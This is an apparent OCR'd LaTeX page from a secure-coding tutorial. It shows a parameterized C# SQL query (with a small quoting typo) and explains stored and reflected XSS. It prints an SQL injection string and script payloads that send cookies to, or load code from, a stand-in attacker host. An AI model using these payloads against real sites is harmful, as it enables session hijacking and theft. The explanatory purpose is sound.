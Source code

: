 \documentclass[a4paper]{article}
\begin{document}
\begin{verbatim}
string username = "johnsmith";
string query = "SELECT * FROM Users WHERE Username=@param_username";
SqlCommand cmd = new SqlCommand(query);
cmd.Parameters.AddWithValue("@param_username, username);
\end{verbatim}

This way, if an attacker sends \texttt{login' OR '1'='1} to the application,
it will not cause any harm, because the query would simply try to find a user
with name \texttt{login' OR '1'='1}.

\subsection{Cross-Site Scripting (XSS)}

\subsubsection{How it works}

Cross-Site Scripting is closely related to injection as it works by inserting a
malicious code to the application. There are two categories of this attack:
stored and reflected. 

The first one occurs when injected code is stored permanently on the server. An
example could be a comment on a forum, which contains Javascript code. If the
vulnerability is present, it will not be displayed on the page, but it will be
executed. It could be simple like:

\begin{verbatim}
<script>document.createElement('img').src =
	'http://attackerswebsite.com/' + document.cookie</script>
\end{verbatim}

This script would create an HTTP request to attacker's website with the victim's
cookies, which could contain for example very useful session token. It is also
possible to include much bigger scripts with:

\begin{verbatim}
<script src="http://attackerswebsite.com/evilscript.js"></script>
\end{verbatim}

The reflected attack works by reflecting the injected code off the trusted
website. For example, an attacker might send a malicious URL to the victim, e.g:
\texttt{http://website.com/<script\%20src="http://attackerswebsite.com/
evilscript.js"></script>}. The URL itself is not dangerous, but the vulnerable
website might show an error message containing the URL, thus embedding it and
executing the injected script.
\end{document}
